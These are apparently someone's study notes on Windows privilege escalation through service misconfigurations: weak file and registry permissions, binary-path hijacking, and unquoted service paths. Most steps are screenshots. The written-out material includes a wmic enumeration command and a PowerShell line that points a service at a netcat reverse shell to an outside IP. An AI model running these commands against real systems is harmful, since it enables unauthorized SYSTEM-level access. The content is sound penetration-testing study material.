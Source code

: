 #### Permissive File System ACLs

SharpUp from the GhostPack suite can check for service binaries w/ weak permissions

![[Pasted image 20230107100854.png]]

The tool identifies the PC Security Management Service, which executes the `SecurityService.exe`

#### Checking Permissions with icacls

Using icacls we can verify the vulnerability and see that the `EVERYONE` and `BUILTIN\Users` groups
have been granted full permissions to the directory.

![[Pasted image 20230107101145.png]]

#### Replacing Service Binary

The service is also startable by unprivileged users. We can make a backup of the original binary
and replace it with a malicious binary generated with msfvenom.

![[Pasted image 20230107101620.png]]

## Weak Service Permissions

#### Reviewing SharpUp Again

![[Pasted image 20230107101928.png]]

#### Checking Permissions with AccessChk

![[Pasted image 20230107102139.png]]

#### Check Local Admin Group

Our user is confirmed `not a member` of adminsitrators group:

![[Pasted image 20230107102343.png]]

#### Changing the Service Binary Path

We can use our permissions to change the binary path maliciously, adding to local admin group.

![[Pasted image 20230107102539.png]]

#### Stopping/Starting Service

![[Pasted image 20230107102558.png]]

![[Pasted image 20230107102609.png]]

![[Pasted image 20230107102922.png]]

Another notable example is the Windows `Update Orchestrator Service (UsoSvc)` which is
responsible for downloading and installing operating system updates.

Before installing the security patch relating to CVE-2019-1322 it was possible to elevate
privileges form a service account to SYSTEM. This was due to weak permissions, which allowed
service accounts to modify the service binary path and start/stop the service.

## Cleanup

#### Reverting the Binary Path

![[Pasted image 20230107103423.png]]

#### Starting the Service Again

![[Pasted image 20230107103446.png]]

![[Pasted image 20230107103501.png]]

## Unquoted Service Path

#### Service Binary Path

![[Pasted image 20230107103537.png]]

Windows will decide the execution method of a program based on it's file extension, so it's not
necessary to specify it. Windows will attempt to load the following potential executables in order
on service start, with a.exe being implied:

`C:\Program Files (x86)\System Explorer\service\SystemExplorerService64`

#### Querying Service

![[Pasted image 20230107103736.png]]

If we can create the following files, we would be able to hijack the service binary and gain
command execution in the context of the service. In this case, `NT AUTHORITY\SYSTEM`

-  `C:\Program.exe\
-  `C:\Program Files (x86)\System.exe`

However, creating files in the root of the drive or the program files folder requires administrator
privileges. Even if the system had been misconfigured to allow this, the user probably wouldn't be
able to restart the service and would be reliant on a system restart to escalate privileges.

Although it's not uncommon to find applications with unquoted service paths, it's often unexploitable.

#### Searching For Unquoted Service Paths

```
wmic service get name,displayname,pathname,startmode | 
	findstr /i "auto" | findstr /i /v "C:\windows\\" | findstr /i /v """
```

![[Pasted image 20230107110017.png]]

## Permissive/Weak Registry ACLs

![[Pasted image 20230107110053.png]]

#### Changing ImagePath with Powershell

We can abuse the PowerShell cmdlet `Set-ItemProperty` to change the `ImagePath` value:
```
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService
	-Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.2 443"
```

## Modifiable Registry Autorun Binaries

We can use WMIC to see what programs run at system startup. Some binaries that can be
overwritten/ Overwrite the registry, and will be executed at start-up/login:

![[Pasted image 20230107110527.png]]

This post https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries
and this site https://www.microsoftpressstore.com/articles/article.aspx?p=2762082&seqNum=2
detail many potential autorun locations on Windows systems.